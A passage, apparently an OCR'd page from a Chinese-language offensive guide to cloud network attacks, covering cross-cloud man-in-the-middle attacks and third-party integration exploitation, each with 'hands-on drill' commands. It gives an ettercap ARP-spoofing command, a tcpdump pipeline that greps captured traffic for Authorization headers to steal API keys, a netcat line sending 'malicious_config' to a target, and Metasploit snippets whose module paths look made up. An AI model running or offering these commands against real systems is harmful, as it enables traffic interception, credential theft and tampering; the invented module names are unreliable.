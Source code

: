    ```bash
   use exploit/unix/ssh/sshd
   set RHOST <PUBLIC_IP>
   exploit
   ```

### 2.3 跨云通信攻击

**攻击手法**：
- **中间人攻击**：攻击者在跨云通信的路径上实施中间人攻击，截获并篡改通信数据。
- **协议分析**：攻击者通过分析跨云通信的协议，发现未加密的通信通道，获取敏感信息。

**利用方式**：
- **数据窃取**：通过中间人攻击或协议分析，窃取跨云通信中的敏感数据，如API密钥、配置信息等。
- **数据篡改**：通过中间人攻击，篡改跨云通信中的数据，如修改配置、注入恶意代码等。

**实战演练**：
1. **中间人攻击**：使用`ettercap`实施中间人攻击，截获跨云通信数据：
   ```bash
   ettercap -T -i eth0 -M arp:remote /<TARGET_IP>/ /<GATEWAY_IP>/
   ```
2. **协议分析**：使用`Wireshark`分析跨云通信的协议，发现未加密的通信通道：
   ```bash
   wireshark -i eth0
   ```
3. **数据窃取**：通过中间人攻击或协议分析，窃取跨云通信中的敏感数据，如API密钥：
   ```bash
   tcpdump -i eth0 -A -n port 80 | grep "Authorization"
   ```
4. **数据篡改**：通过中间人攻击，篡改跨云通信中的数据，如修改配置：
   ```bash
   echo "malicious_config" | nc <TARGET_IP> 80
   ```

### 2.4 第三方集成攻击

**攻击手法**：
- **漏洞利用**：攻击者通过第三方工具或服务的已知漏洞，获取网络拓扑信息。
- **配置错误**：攻击者通过第三方工具或服务的配置错误，获取敏感信息。

**利用方式**：
- **数据泄露**：通过漏洞利用或配置错误，获取第三方工具或服务中的敏感数据，如API密钥、配置信息等。
- **权限提升**：通过漏洞利用，提升在第三方工具或服务中的权限，进一步渗透网络。

**实战演练**：
1. **漏洞利用**：使用`Metasploit`针对第三方工具或服务的已知漏洞进行攻击，如：
   ```bash
   msfconsole
   use exploit/thirdparty/tool_vulnerability
   set RHOST <THIRDPARTY_IP>
   exploit
   ```
2. **配置错误**：通过第三方工具或服务的配置错误，获取敏感信息，如：
   ```bash
   curl -X GET https://thirdparty.com/config -H "Authorization: Bearer <API_KEY>"
   ```
3. **数据泄露**：通过漏洞利用或配置错误，获取第三方工具或服务中的敏感数据，如API密钥：
   ```bash
   cat /var/log/thirdparty.log | grep "API_KEY"
   ```
4. **权限提升**：通过漏洞利用，提升在第三方工具或服务中的权限，如：
   ```bash
   sudo -i
   ```
